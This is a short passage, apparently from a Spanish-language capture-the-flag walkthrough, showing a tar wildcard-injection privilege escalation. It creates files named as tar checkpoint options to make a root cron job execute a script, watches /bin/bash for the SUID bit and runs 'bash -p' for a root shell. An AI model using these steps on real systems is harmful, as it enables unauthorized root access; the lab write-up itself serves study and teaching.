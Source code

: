 ```bash
touch -- '--checkpoint=1'
touch -- '--checkpoint-action=exec=sh privesc'
```

Ya esta esperamos hasta el proximo run de la tarea cron.

```bash
watch -n 1 ls -l /bin/bash -d
```

Cuando vemos que la /bin/bash tiene el 
```bash
 s 
```
 de SUID podemos convertirnos en root

```bash
bash -p
```

